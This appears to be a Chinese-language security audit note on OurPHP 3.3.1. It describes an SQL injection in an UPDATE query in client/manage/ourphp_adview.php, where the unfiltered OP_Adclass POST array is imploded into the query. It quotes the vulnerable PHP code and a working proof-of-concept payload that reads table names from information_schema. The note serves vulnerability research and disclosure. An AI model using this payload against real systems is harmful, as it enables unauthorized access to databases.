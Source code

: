 



## SQL注入1（update注入）



漏洞位于`client/manage/ourphp_adview.php`，从第11行开始：

```php
if(isset($_GET["ourphp_cms"]) == ""){
	echo '';
}elseif ($_GET["ourphp_cms"] == "edit"){

	if (!empty($_POST["OP_Adclass"])){
		$OP_Adclass = implode(',',$_POST["OP_Adclass"]);
	}else{
		$OP_Adclass = '';
	}

	$query = $db -> update("`ourphp_ad`","`OP_Adcontent` = '".admin_sql($_POST["OP_Adcontent"])."',`OP_Adclass` = '".$OP_Adclass."',`time` = '".date("Y-m-d H:i:s")."'","where id = ".intval($_GET['id']));
	$ourphp_font = 1;
	$ourphp_class = 'ourphp_ad.php?id=ourphp';
	require 'ourphp_remind.php';
			
}
```

传`$_GET['ourphp_cms']='edit'`，然后注意下面的SQL语句：

```php
$query = $db -> update("`ourphp_ad`","`OP_Adcontent` = '".admin_sql($_POST["OP_Adcontent"])."',`OP_Adclass` = '".$OP_Adclass."',`time` = '".date("Y-m-d H:i:s")."'","where id = ".intval($_GET['id']));
```

注意到`$OP_Adclass`是通过POST传参然后`implode`而来的，没有经过任何的过滤，因此存在SQL注入：

```php
http://www.ourphp331.com/client/manage/ourphp_adview.php?ourphp_cms=edit&id=1

OP_Adclass[]=',`OP_Adclass` =(select substr(group_concat(table_name)1,32) from information_schema.tables where table_schema=database()) where id = 1%23
```

![pic28](OurPHP3.3.1审计与测试.assets/pic28.png)
